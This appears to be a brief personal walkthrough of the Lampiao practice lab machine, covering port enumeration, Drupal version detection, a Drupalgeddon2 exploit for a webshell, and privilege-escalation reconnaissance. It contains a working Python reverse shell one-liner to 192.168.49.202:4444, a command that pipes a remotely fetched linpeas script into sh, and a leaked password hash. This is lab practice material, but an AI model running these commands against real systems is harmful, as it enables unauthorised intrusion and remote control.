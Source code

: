 # Lampiao Notes


### Enumeration
- open ports: 
	- quick-scan
		- 22 -> SSH
		- 80 -> HTTP 
	- full port scan 
		- 1898 -> cymtec-port?

- website on 1898 in spanish

- HTML source code leaked that Drupal is powering the app

 - Droopescan
	 - plugins -> profile, php, image
	 - Themes -> seven, garlad
	 - version -> 7.54
	 - changelog.txt exposed

- Drupal version weak to Drupalgeddeon2 
	- fix the exploit with: 
		- sudo gem install highline

#### Foothold 
- searchsploit ruby script '44449.rb' provides a webshell
- need rev shell for priv esc, which python tells us python is on the system
	- python shell: 
```export RHOST="192.168.49.202";export RPORT=4444;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'```

- curl linpeas from our machine to the target: 
	- curl -L http://192.168.49.202/linpeas.sh | sh

- .sh in path: 
	- /usr/bin/gettext.sh 

- bash history in /
	- /.bash_history

pass hash found: 
	- ```$S$DAK00p3Dkojkf4O/UizYxenguXnjv```


https://www.exploit-db.com/exploits/50689


 

